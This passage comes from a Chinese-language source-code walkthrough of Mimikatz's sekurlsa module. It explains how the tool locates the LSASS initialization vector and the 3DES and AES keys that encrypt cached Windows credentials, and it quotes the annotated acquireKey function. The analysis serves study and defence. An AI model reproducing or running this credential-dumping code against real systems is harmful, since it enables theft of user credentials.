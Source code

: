 ```c++
                            ))
                            status = STATUS_SUCCESS;
                    }
                }
            }
        }
    }
    return status;
}
```

首先，同样是通过 `kull_m_patch_getGenericFromBuild()` 函数选出适用于当前系统版本的 `PTRN_WIN8_LsaInitializeProtectedMemory_KeyRef` 中的特征码条目，用来定位加密用户凭据的初始化向量 `InitializationVector` 和 `h3DesKey`、`hAesKey` 密钥。

在 `kuhl_m_sekurlsa_nt6_acquireKeys()` 函数中，先通过与 `kuhl_m_sekurlsa_utils_search_generic()` 函数类似的逻辑获取 `InitializationVector` 的地址，然后调用两次 `kuhl_m_sekurlsa_nt6_acquireKey()` 函数定位 `h3DesKey` 和 `hAesKey` 的地址。

跟进 `kuhl_m_sekurlsa_nt6_acquireKey()` 函数：

- sekurlsa\\crypto\\kuhl\_m\_sekurlsa\_nt6.c

```c++
BOOL kuhl_m_sekurlsa_nt6_acquireKey(PKULL_M_MEMORY_ADDRESS aLsassMemory, PKUHL_M_SEKURLSA_OS_CONTEXT pOs, PKIWI_BCRYPT_GEN_KEY pGenKey, LONG armOffset) // TODO:ARM64
{
    BOOL status = FALSE;
    KULL_M_MEMORY_ADDRESS aLocalMemory = {&aLsassMemory->address, &KULL_M_MEMORY_GLOBAL_OWN_HANDLE};
    KIWI_BCRYPT_HANDLE_KEY hKey; PKIWI_HARD_KEY pHardKey;
    PVOID buffer; SIZE_T taille; LONG offset;
    // 根据 BuildNumber 中的系统版本，在几种 KIWI_BCRYPT_KEY 结构中选择适合的版本
    if(pOs->BuildNumber < KULL_M_WIN_MIN_BUILD_8)
    {
        taille = sizeof(KIWI_BCRYPT_KEY);
        offset = FIELD_OFFSET(KIWI_BCRYPT_KEY, hardkey);
    }
    else if(pOs->BuildNumber < KULL_M_WIN_MIN_BUILD_BLUE)
    {
        taille = sizeof(KIWI_BCRYPT_KEY8);
        offset = FIELD_OFFSET(KIWI_BCRYPT_KEY8, hardkey);
    }
    else
    {
        // taille 为 KIWI_BCRYPT_KEY81 结构体的大小
        taille = sizeof(KIWI_BCRYPT_KEY81);
        // offset 为 hardkey 属性在 KIWI_BCRYPT_KEY81 结构体中的偏移
        offset = FIELD_OFFSET(KIWI_BCRYPT_KEY81, hardkey);
    }

    if(buffer = LocalAlloc(LPTR, taille))
    {
    #if defined(_M_ARM64)
        // ......
    #elif defined(_M_X64)
        LONG offset64;
        aLocalMemory.address = &offset64;
        // 获取保存 h3DesKey 偏移量的那四个字节的值，并加到 rip 指令的地址上，最终得到了 h3DesKey 变量的地址
        if(kull_m_memory_copy(&aLocalMemory, aLsassMemory, sizeof(LONG)))
        {
            aLsassMemory->address = (PBYTE) aLsassMemory->address + sizeof(LONG) + offset64;
            aLocalMemory.address = &aLsassMemory->address;
    #elif defined(_M_IX86)
        // ......
    #endif
            // 将 BCRYPT_KEY_HANDLE 结构的 h3DesKey 变量复制到 aLocalMemory.address 指向的内存中
```